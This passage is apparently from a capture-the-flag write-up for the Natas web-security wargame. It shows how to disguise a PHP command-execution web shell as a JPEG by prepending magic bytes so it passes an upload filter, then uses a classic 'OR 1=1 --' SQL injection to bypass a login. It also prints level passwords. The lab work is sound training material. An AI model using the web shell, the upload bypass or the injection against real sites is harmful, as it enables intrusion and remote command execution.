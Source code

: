 ```sh
echo -n -e '\xFF\xD8\xFF\xE0'$(cat shell.php) > shell2.php
```

- we can check if we successfully change file type using `file command`

```sh
file -i shell2.php
```

- we get

```
shell2.php: image/jpeg; charset=iso-8859-1
```

- alternatively we can check using `hexdump` or `xxd`, and look at the first bytes

```
00000000: ffd8 ffe0 3c3f 7068 7020 6966 2869 7373  ....<?php if(iss
00000010: 6574 2824 5f47 4554 5b27 636d 6427 5d29  et($_GET['cmd'])
00000020: 297b 2073 7973 7465 6d28 245f 4745 545b  ){ system($_GET[
00000030: 2763 6d64 275d 293b 207d 203f 3e         'cmd']); } ?>
```

- we are successfully change our file type.
- now we can just upload it using previous method in natas12.
- dont forget to change the url and Authentication header in our curl command.
- we now got our password

```
Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```

## NATAS14

- this one look like SQL injection, because the source code reveal alot about MYSQL.
- here are the login logic
```php
$query = "SELECT * from users where 
username=\"".$_REQUEST["username"]."\" and 
password=\"".$_REQUEST["password"]."\"";

if(array_key_exists("debug", $_GET)) {
    echo "Executing query: $query<br>";
}

if(mysql_num_rows(mysql_query($query, $link)) > 0) {
        echo "Successful login! The password for natas15 is <censored><br>";
} else {
        echo "Access denied!<br>";
}
mysql_close($link);
```
- we can see that, there is a debug option for us to see our query.
- we can meke use of it in the url `?debug&username=admin&password=test`
- we can try this query to bypass password, so that the satement is true 
```php
?debug&username=admin"%20OR%201=1%20--%20"&password=test
```
- our query will look like this
```sql
SELECT * from users where username="admin" OR 1=1 -- "" and password="test"
```
- what it does is, `username=admin` OR `1=1--` and commented the rest of the code.
- now we are able to login and get the password
```
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```
